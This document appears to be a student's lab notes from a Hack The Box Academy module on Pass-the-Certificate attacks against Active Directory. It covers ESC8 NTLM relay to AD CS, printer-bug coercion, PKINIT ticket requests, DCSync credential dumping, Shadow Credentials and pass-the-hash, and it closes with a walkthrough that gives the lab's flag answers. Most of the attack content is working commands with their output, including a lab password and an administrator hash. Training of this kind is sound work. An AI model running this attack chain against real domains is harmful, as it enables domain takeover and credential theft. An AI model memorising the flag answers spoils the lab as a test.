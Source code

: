[PKINIT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/d0cf1763-3541-4008-a75f-a577fa5e8c5b), short for `Public Key Cryptography for Initial Authentication`, is an extension of the Kerberos protocol that enables the use of public key cryptography during the initial authentication exchange.
 It is typically used to support user logons via smart cards, which store the private keys. `Pass-the-Certificate` refers to the technique of using X.509 certificates to successfully obtain `Ticket Granting Tickets (TGTs)`. This method is used primarily alongside [attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf), as well as in [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attacks.

## AD CS NTLM Relay Attack (ESC8)

`ESC8`—as described in the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) paper—is an NTLM relay attack targeting an ADCS HTTP endpoint. ADCS supports multiple enrollment methods, `including web enrollment`, which by default occurs over HTTP. A certificate authority configured to allow web enrollment typically hosts the following application at `/CertSrv`:
![[Pasted image 20251009164055.png]]

Attackers can use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service using the following command:
```shell
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```
**Note:** The value passed to `--template` may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like [certipy](https://github.com/ly4k/Certipy).
```shell
certipy find -u wwhite -p package5shores_topher1 -dc-ip 10.129.225.219
```

Attackers can either wait for victims to attempt authentication against their machine randomly, or they can actively coerce them into doing so. One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). This attack requires the targeted machine account to have the `Printer Spooler` service running. The command below forces `10.129.234.109 (DC01)` to attempt authentication against `10.10.16.12 (attacker host)`:
```shell
> python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

Referring back to `ntlmrelayx`, we can see from the output that the authentication request was successfully relayed to the web enrollment application, and a certificate was issued for `DC01$`:
```shell-session
...
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled
...
```
We can now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies:

Then, we can begin the attack.
**Note:** If you encounter error stating `"Error detecting the version of libcrypto"`, it can be fixed by installing the [oscrypto](https://github.com/wbond/oscrypto) library: `pip3 install -I git+https://github.com/wbond/oscrypto.git

```shell
> python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache
```

Once we successfully obtain a TGT, we're back in familiar Pass-the-Ticket (PtT) territory. As the domain controller's machine account, we can perform a DCSync attack to, for example, retrieve the NTLM hash of the domain administrator account:

```shell
> export KRB5CCNAME=/tmp/dc.ccache
DONT FORGET TO ADD FQDN TO /etc/hosts
> impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
<SNIP>
```


---

## Shadow Credentials (msDS-KeyCredentialLink)
[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.
![[Pasted image 20251009170506.png]]

We can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:

```shell
> pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

...
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
...
```

In the output above, we can see that a `PFX (PKCS12)` file was created (`eFUVVTPf.pfx`), and the password is shown. We will use this file with `gettgtpkinit.py` to acquire a TGT as the victim:

```shell
> python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache

...
INFO:minikerberos:f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
...
```

With the TGT obtained, we may once again `pass the ticket`:
```shell
export KRB5CCNAME=/tmp/jpinkman.ccache
V0xD0x@htb[/htb]$ klist

Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

In this case, we discovered that the victim user is a member of the `Remote Management Users` group, which permits them to connect to the machine via `WinRM`. As demonstrated in the previous section, we can use `Evil-WinRM` to connect using Kerberos (note: ensure that `krb5.conf` is properly configured):

```shell
> evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

---

## No PKINIT?
In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims (e.g., a domain controller machine account) due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing passwords or granting DCSync rights). This attack is outside the scope of this module but is worth reading about [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

---

### Question

Target(s): 10.129.225.219 (ACADEMY-PWATTCK-PTCDC01)
		10.129.234.172 (ACADEMY-PWATTCK-PTCCA01)
1. What are the contents of flag.txt on jpinkman's desktop?
```shell
We can access this endpoint: http://10.129.234.172/certsrv/Default.asp

We could try NTLM Relay attack (ESC8)

> ntlmrelayx -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

On other terminal:
> printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.225.219 10.10.14.237

On the listener:
[*] Authenticating against http://10.129.234.172 as INLANEFREIGHT/DC01$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.225.219, attacking target http://10.129.234.172
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[-] Authenticating against http://10.129.234.172 as / FAILED
[*] GOT CERTIFICATE! ID 13
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file

Perfect now we can get a tgt thanks to PKINIT:
> gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip 10.129.225.219 'inlanefreight.local/dc01$' /tmp/dc.ccache
> cp /tmp/dc.ccache .
> export KRB5CCNAME="$(pwd)/dc.ccache"
Add FQDN to /etc/hosts
> secretsdump -k -no-pass -dc-ip 10.129.225.219 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd02e525dd676fd8ca04e200d265f20c:::

now we can perform a Pass the hash attack.

> evil-winrm -i 10.129.225.219 -u Administrator -H fd02e525dd676fd8ca04e200d265f20c
Go on jpinkman desktop then:
evin-winrm> cat flag.txt
3d7e3dfb56b200ef715cfc300f07f3f8
```

2. What are the contents of flag.txt on Administrator's desktop?
```shell
Go on Administrator Desktop then cat flag.txt:
a1fc497a8433f5a1b4c18274019a2cdb
```